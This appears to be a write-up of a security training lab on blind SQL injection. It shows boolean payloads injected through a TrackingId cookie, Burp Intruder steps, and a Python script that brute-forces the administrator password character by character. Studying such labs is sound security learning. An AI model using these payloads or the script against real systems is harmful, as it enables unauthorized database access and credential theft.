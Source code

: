<h1>Blind SQL injection</h1>


![2](https://user-images.githubusercontent.com/57036558/77020713-92531100-697c-11ea-8517-757ac170ded8.png)


When the HTTP responses do not contain the results of the relevant SQL query or the detail of any database errors doesn't mean that there isn't an SQL injection Vulnerability. Blind SQL injection is the process of access unauthorized data using different techniques than the ones seen before (many techniques such as UNION attacks are not effective while performing blind SQL injection)

## Exploiting blind SQL injection by triggering conditional responses

To solve this lab we need to log in as administrator user. We are given the information that the database contains a table called `users`, with columns called `username` and `password`.

In blind SQL injection, we can trigger conditional responses by injecting cookies. This lab contains an application that uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie. Since its a blind SQL injection, the results of the SQL query are not returned, and no error messages displayed, but the application includes a "Welcome back" message in the page if the query returns any rows.

To solve this challenge we use Burp Suite.

The firs step is send the application's request to Burp Intruder and modify the `TrackingId` cookie in order to verify that the "Welcome back" message appears in the response. To do this we need to change the cookie to `TrackingId=x'+OR+1=1--`:

![1](https://user-images.githubusercontent.com/57036558/77020668-6f286180-697c-11ea-8231-fc0a0f058ca5.png)

Then, we change it to `TrackingId=x'+OR+1=2--` which will return as `false` and let us verify that the "Welcome back" message does not appear in the response, to demonstrate that we can test a single boolean condition and infer the result.

![3](https://user-images.githubusercontent.com/57036558/77020881-0db4c280-697d-11ea-88d6-cdcf3748f1a7.png)

Now, we need to confirm that there is a user called administrator. To do that we change the cookie to `TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'--`:

![4](https://user-images.githubusercontent.com/57036558/77020997-6a17e200-697d-11ea-8def-bb716bd116a7.png)

Next we need to determine how many characters are in the password of the administrator user. To do this we change the cookie to `TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>1--` and send it to burp intruder. Burp intruder will cycle through each position and possible value, testing each one in turn. We clear the default positions and add `1` making it look like §1§. Next, on the payloads tab we select a "Simple list" and add the range 1-9 to the "Payload Options". To be able to tell when we reach the current value of the password lenght, we need to grep each response for the expression "Welcome back". To do that we go to the Options tab and add the value "Welcome back" to the "Grep - Match" section. We can now lauch the attack clicking on "Start attack":

![5](https://user-images.githubusercontent.com/57036558/77022212-e9f37b80-6980-11ea-96ac-b146f81713d2.png)

We can notice by the of the response that it changes once our payload injected the number 6, meaning that the lenght of the password is bigger than 5 but not bigger than 6, therefore it has 6 characters. So now we know the lenght of the password, we need to find the actual characters it contains. To do this we change the cookie to `TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'--`, change the payload type to "Cluster bomb" and select the first "1" and "a" as the payload markers. Then for the first payload we add a range of 1-6 and for the second from a-z. The rest of the process is like the previous method. We hit "Start attack" and wait for a response to tell us the password characters:

```
password: tyhmpe
```

Now we just need to log in and solve the lab:

![6](https://user-images.githubusercontent.com/57036558/77024341-2e354a80-6986-11ea-8278-5dde548f6ce1.png)

Although Burp Suite is a great tool, the process of finding a password using it took a long time in my opinion. And since I am a lazy guy I decided to write a simple script to solve this lab and perhaps reuse it on later labs:

```
#!/usr/bin python3

import requests
import sys
import argparse

s = requests.session()

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", dest="url", help="Type url")
    options = parser.parse_args()
    if not options.url:
        parser.error("Plese type url (--help for Help)")
    return options

def check_results(url):
    payload = "x'+OR+1=1--"
    cookies = s.cookies.set('TrackingId', None)
    cookies = s.cookies.set('TrackingId', payload)
    body = s.get(url).content
    check = True

    while check:
        if "Welcome back" in body.decode():
            check = False
        else:
            print("False")
            sys.exit()

    payload = "x'+OR+1=2--"
    cookies = s.cookies.set('TrackingId', None)
    cookies = s.cookies.set('TrackingId', payload)
    body = s.get(url).content
    check = True

    while check:
        if "Welcome back" not in body.decode():
            check = False
        else:
            print("False")
            sys.exit()

    print("Possible Blind SQL injection!")

def confirm_admin(url):
    payload = "x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'--"
    cookies = s.cookies.set('TrackingId', None)
    cookies = s.cookies.set('TrackingId', payload)
    body = s.get(url).content

    if "Welcome back" in body.decode():
        print("Administrator account exists!")
    else:
        print("False")
        sys.exit()

def passwd_len(url):
    payload = "x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>"
    lenght = range(1,10)
    for num in lenght:
        inject = payload + str(num) + "--"
        cookies = s.cookies.set('TrackingId', None)
        cookies = s.cookies.set('TrackingId', inject)
        body = s.get(url).content

        if "Welcome back" not in body.decode():
            print(f"Password has {num} characters")
            break

def get_passwd(url):
    payload = "x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'--"
    lenght = range(1,7)
    char = "abcdefghijklmnopqrstuvwxyz0123456789!\"#$%&'()*+,-./:;<=>?@[\]^_`{|}~"
    passwd = []
    for l in lenght:
        for c in char:
            p = list(payload)
            p[85] = str(l)
            p[91] = c
            inject = "".join(p)
            cookies = s.cookies.set('TrackingId', None)
            cookies = s.cookies.set('TrackingId', inject)
            body = s.get(url).content

            if "Welcome back" in body.decode():
                passwd.append(c)
                break

    passwd = "".join(passwd)
    print(passwd)
    
options = get_arguments()
check_results(options.url)
confirm_admin(options.url)
passwd_len(options.url)
get_passwd(options.url)

```





